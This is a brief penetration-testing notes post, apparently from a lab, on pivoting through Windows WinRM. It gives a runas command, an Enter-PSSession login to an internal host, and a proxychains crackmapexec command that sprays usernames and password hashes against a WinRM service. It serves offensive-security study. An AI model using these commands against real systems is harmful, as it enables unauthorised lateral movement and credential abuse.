```yaml
---
layout: post
title: Windows winRM Pivot
titledate: 10/17/23
tags: ["infosec","offsec","evil-winrm", "privesc", "powershell"]
---
```


#### winRM Pivot

if we have access to a windows system , and can log in as a domain user 

    runas /user:medtech\joe powershell.exe

then in our new domain session - we may be able to access an internal system via an open winrm port 5985,5956

    Enter-PSSession -ComputerName CLIENT02 -Credential medtech\poork

if we see a winRM port open and have some creds we can leverage crackmapexec to spray it

    └─$ proxychains crackmapexec winrm 10.10.86.152 -u users -H hashes